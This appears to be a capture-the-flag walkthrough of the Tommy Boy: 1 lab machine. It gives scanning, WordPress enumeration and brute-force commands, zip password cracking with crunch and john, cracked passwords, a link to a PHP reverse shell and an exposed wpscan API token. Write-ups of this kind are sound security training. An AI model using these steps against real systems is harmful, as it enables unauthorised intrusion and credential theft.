



# TOMMY BOY: 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -n -Pn -F 192.168.196.1/24 -oN host_discovery.txt`


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.6 -oN full_service_enum-sC.txt`


`nmap -sV -sU -F 192.168.196.6 -oN udp-sC-sV.txt`

## 1.3 Web 80
### 1.3.1 Gobuster enum web content
`gobuster dir -u http://192.168.196.6 -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,bkp,bak,txt,html,aspx -f -o info-slash.txt`
Here we can grep responses that dont contain `7` (starting number for default response size):


`gobuster dir -u http://192.168.196.6 -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,bkp,bak,txt,html,aspx -o info.txt`
And here, we can grep responses that dont contain `302`:


### 1.3.2 Html source code

There is a conversation.
There is a hint to find the blog name. The youtube video provided there says: “prehistoric forest”.
We tried use it as folder, and bingo!


### 1.3.3 Wordpress found
`gobuster dir -u http://192.168.196.6/prehistoricforest/ -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,bkp,bak,txt,html,aspx -f -o info-slash.txt`


#### 1.3.3.1 Wpscan
`wpscan --url http://192.168.196.6/prehistoricforest/ -e ap,at,tt,cb,dbe,u1-20,m --plugins-detection aggressive --disable-tls-checks --api-token 7MBL9noH6s6pOW5qAM6boXVS5wEMayvrBaaoBbMaIKg -o all-info.txt --ignore-main-redirect`

#### 1.3.3.2 Wordpress protected page


Tom jr asked a question, and there is a interesting comment:


Using `strings` on the image found in the directory mentioned, there is a MD5 hash:

`ce154b5a8e59c89732bc25d6a2e6b90b`


`spanky`

Now we can unprotect this page and read it:


## 1.4 Simple bash script to find intermittent ftp port
With the above tips found previously, we can search this ftp port using a simple script:
```
#!/bin/bash

while true; 
do
	echo "[!] Executando varredura!"
   	nmap -p- -sV -T4 192.168.196.6 -n -Pn | grep -i ftp > teste.txt

   	if [ -s ./teste.txt ];
	then
		cat teste.txt
		exit 0
	fi
done
```

# 2 Exploitation
## 2.1 Brute force with wpscan
`wpscan --url http://192.168.196.6/prehistoricforest/ -P /root/shared/rockyou.txt -U users.txt -t 100`


## 2.2 Login as nickburns using simple password
With the previous tip about logging in to ftp as nickburns, we tried using the username as the password and it works:


## 2.3 Bypass user-agent based blocking
Accessing the cited directory, we can't view the content. But there is a message with a tip:


Changing the user-agent to another, an iphone's agent, we can view the full content:
https://developers.whatismybrowser.com/useragents/explore/operating_system_name/ios/

Another tip!

### 2.3.1 Wfuzz enum web content
`wfuzz -u "http://192.168.196.6/NickIzL33t/FUZZ.html" -w root/shared/rockyou.txt -f info.txt -H "User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_2 like Mac OS X) "`
We receveiced a `200` response with different size:


### 2.3.2 New file - fallon1.html


#### 2.3.2.1 A hint


#### 2.3.2.2 A zip file with password


#### 2.3.2.3 Upload cababilities

Without success here.

### 2.3.3 Generate wordlist with Cruch and cracking zip file with John

`crunch 13 13 -t bev,%%@@^1995 > wordlist.txt`

`zip2john t0msp4ssw0rd.zip > hash.hash`
`john hash.hash wordlist.txt`

Or you can user fcrackzip
`fcrackzip -v -u -D -p wordlist.txt t0msp4ssw0rdz.zip`

bevH00tr$1995


### 2.3.4 Another hint that reveals a page with info



fatguyinalittlecoat1938!!

### 2.3.5 Login as bigtommysenior


# 3 Post-exploitation
Was used LinEnum.sh to enumerate this Linux, but without good results.
At this points, the option was manually find writable files due LinEnum.sh don't found the necessary file.
`find / -perm -222 -type d 2>/dev/null`


Here we can create a reverse shell file, use it and verify if the web system uses another user.

## 3.1 Reverse shell (pentest monkey)
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


It is worth remembering that this machine does not have root escalation, so we finish here.